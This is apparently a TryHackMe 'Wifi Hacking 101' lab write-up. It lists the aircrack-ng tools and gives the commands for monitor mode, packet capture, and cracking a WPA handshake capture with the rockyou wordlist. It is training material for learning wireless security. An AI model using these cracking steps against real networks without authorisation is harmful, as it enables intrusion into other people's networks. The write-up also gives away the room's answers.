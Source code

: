 # TryHackMe: Wifi Hacking 101

_Learn to attack WPA(2) networks! Ideally you'll want a smartphone with you for this, preferably one that supports hosting wifi hotspots so you can follow along._

[Wifi Hacking 101](https://tryhackme.com/room/wifihacking101)

* * * * * 
* * * * *

## Info

The `aircrack-ng` suite consists of:

```
aircrack-ng
airdecap-ng
airmon-ng
aireplay-ng
airodump-ng
airtun-ng
packetforge-ng
airbase-ng
airdecloak-ng
airolib-ng
airserv-ng
buddy-ng
ivstools
easside-ng
tkiptun-ng
wesside-ng
```

[Linux man page](https://linux.die.net/man/1/aircrack-ng)

## Questions

Put the interface "wlan0" into monitor mode with Aircrack:_
```
airmon-ng start wlan0
```

The interface name will change from "wlan0" to "wlan0mon".

If other processes are currently trying to use that network adapter:
```
airmon-ng check kill
```

Create a capture:
```
airodump-ng
```

Using the `rockyou` wordlist, crack the password in the attached capture (download the files from the website) by running:
```
aircrack-ng -b 02:1A:11:FF:D9:BD -w /usr/share/wordlists/rockyou.txt NinjaJc01-01.cap
```